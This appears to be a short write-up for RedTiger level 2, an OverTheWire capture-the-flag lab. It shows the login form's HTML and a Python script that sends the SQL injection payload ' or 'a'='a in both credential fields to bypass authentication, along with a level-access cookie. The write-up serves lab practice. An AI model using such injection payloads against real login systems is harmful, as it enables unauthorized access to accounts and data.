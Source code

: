 ================================================================================================================
[redtiger] level2
================================================================================================================

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="username=' or 'a'='a&password=' or 'a'='a",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }

|

Source analysis
================================================================================================================

Target: Login 
Hint: Condition 

.. code-block:: html

    <form method="POST">
        Username: <input type="text" name="username"><br>
        Password: <input type="password" name="password"><br>
        <input type="submit" name="login" value="Login">
    </form>
    

|

or injection
================================================================================================================

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level2.php"
    cookies = {
        "level2login":"easylevelsareeasy_%21"
    }

    # ' or 1=1
    # ' or 'a'='a
    payload = {
        "username": "' or 'a'='a",
        "password": "' or 'a'='a",
        "login": "Login"
    }

    r = requests.post(url, cookies=cookies, data=payload, verify=False)

    print r.content

